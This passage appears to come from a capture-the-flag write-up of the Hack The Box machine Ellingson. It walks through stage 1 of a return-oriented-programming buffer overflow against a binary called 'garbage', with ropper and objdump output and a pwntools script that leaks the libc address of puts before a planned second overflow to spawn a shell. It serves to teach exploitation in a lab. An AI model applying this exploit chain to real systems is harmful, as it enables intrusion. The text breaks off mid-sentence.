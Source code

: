 To summarize, stage 1 involves leaking the address of puts by calling puts and passing the address of puts itself in the register RDI. To load RDI with the address of puts, we can search for assembly instructions that will do that for us followed by a ret instruction. To load a register, we can use the assembly instruction pop rdi. A pop instruction takes the address at the top of the stack and puts it into the specified register.

We can use the tool ropper, a program that will disassemble a program and print out gadgets useful for buffer overflow exploits, and search for a gadget that will suit our purposes:

```bash
┌─[rin@parrot]─[~/boxes/Ellingson]
└──╼ $ropper -f garbage --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi
[INFO] File: garbage
0x000000000040179b: pop rdi; ret;
```

We can start putting together the exploit code.

```python
from pwn import *
# p = gdb.debug('./garbage', 'b main') # can use this for debugging
p = process("./garbage")
junk = ("A" * 136).encode()
pop_rdi = p64(0x40179b)
got_puts = p64(0x404028)
plt_puts = p64(0x401050)
plt_main = p64(0x401619)
payload = junk + pop_rdi + got_puts + plt_puts + plt_main
p.sendline(payload)
p.recvuntil("access denied.")
received = p.recvall()
leaked_put = received[:8].strip().ljust(8, b"\x00")
log.info(f"Leaked address: 0x{leaked_put.hex()}")
```

The address for got\_puts and plt\_puts is obtained by using the program objdump to disassemble the program garbage \(using the -D flag\) and passing the output to grep to filter for the word puts.

```bash
┌─[rin@parrot]─[~/boxes/Ellingson]
└──╼ $objdump -D garbage | grep puts
0000000000401050 <puts@plt>:
401050: ff 25 d2 2f 00 00 jmpq *0x2fd2(%rip) # 404028 <puts@GLIBC_2.2.5>
```

Pwntools handles handling input and output to the application using a range of calls to send and receive text. The leaked address of puts is formatted by stripping the newline character at the end and padding the address obtained, if necessary, with zeros.

Once the leaked address is obtained, we need to stay in the program and do a second buffer overflow, but this time invoking the system function to run a shell. The next instruction needs to be the return address which should be that of main \(the main entry point of the program\) that we can again get from objdump \(note this was included in the code above at \).
